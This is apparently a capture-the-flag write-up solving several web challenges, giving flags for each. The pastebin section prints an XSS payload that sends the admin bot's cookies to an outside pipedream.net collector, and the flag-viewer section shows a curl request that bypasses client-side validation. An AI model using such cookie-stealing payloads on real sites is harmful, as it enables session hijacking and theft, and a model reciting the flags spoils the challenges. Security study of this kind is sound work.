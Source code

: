 FLAG : `hope{cant_misuse_templates}`

## [web]flag-viewer
Note that you see the all response with `--verbose` option.
```none
curl --verbose -d 'user=admin' -X POST https://flag-viewer.mc.ax/flag
...
< location: /?message=hope%7Boops_client_side_validation_again%7D
...
```

Flag : `hope{oops_client_side_validation_again}`

## [web]pastebin
(adminbot.js)
```javascript
await page.setCookie({ name: 'flag', value: flag.trim(), domain: 'pastebin.mc.ax' })
```
Overwrite `location` with XSS because when adminbot access the page with the same name as HOST name, set the Cookie.

There is XSS at `message` query in the `/flash`.

(index.js)
```javascript
app.get('/flash', (req, res) => {
  const message = req.query.message ?? '';
  res.set('set-cookie', `error=${message}`);
  res.redirect('/');
});
```

Input the URL to input-box in `https://admin-bot.mc.ax/pastebin`.
```none
https://pastebin.mc.ax/flash?message=<script>location=`https://eoyyukk2qvix5xq.m.pipedream.net?cookie=${document.cookie}`</script>
```

## [web]point
```go
type importantStuff struct {
	Whatpoint string `json:"what_point"`
}
...
if strings.Contains(string(body), "what_point") || strings.Contains(string(body), "\\") {
	fmt.Fprintf(w, "Something went wrong")
	return
}
...
if whatpoint.Whatpoint == "that_point" {
	fmt.Fprintf(w, "Congrats! Here is the flag: %s", flag)
	return
}
```
